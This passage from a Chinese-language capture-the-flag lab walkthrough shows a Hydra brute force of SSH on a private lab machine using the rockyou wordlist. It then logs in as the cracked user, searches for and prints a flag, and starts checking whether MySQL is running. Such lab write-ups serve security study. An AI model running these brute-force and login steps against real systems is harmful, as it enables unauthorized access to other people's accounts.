 把这两个用户名写入user.txt，用hydra进行密码爆破登录SSH:

kali本身有自带的密码字典：rockyou

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626154210867.png)

```sh
gzip -d /usr/share/wordlists/rockyou.txt.gz
cp /usr/share/wordlists/rockyou.txt pass
hydra -L user.txt -P pass 192.168.101.135 ssh
```



ssh的用户michael密码为michael：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626154904128.png)





#### 尝试进行ssh登录：

```sh
ssh michael@192.168.101.135
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626155252966.png)

ssh登录成功，获得低权限shell



### 3. 漏洞利用

* find命令寻找flag2:

```sh
find / -name *flag* 2>/dev/null
```

> 这个命令的作用是在Linux系统中查找文件名中包含“flag”字符串的文件，并将结果输出到控制台。
>
> * 从根目录查找
> * `*`为通配符，表示文件名中含有flag字符串
> * 2为错误输出，/dev/null特殊设备用于丢弃所有数据。`2>/dev/null`表示忽略所有错误信息

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626155524561.png)

找到flag2:==flag2{fc3fd58dcdad9ab23faca6e9a36e581c}==

#### 登录Mysql

查看Mysql是否在运行

```sh
ps -ef | grep mysql
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626160053324.png)
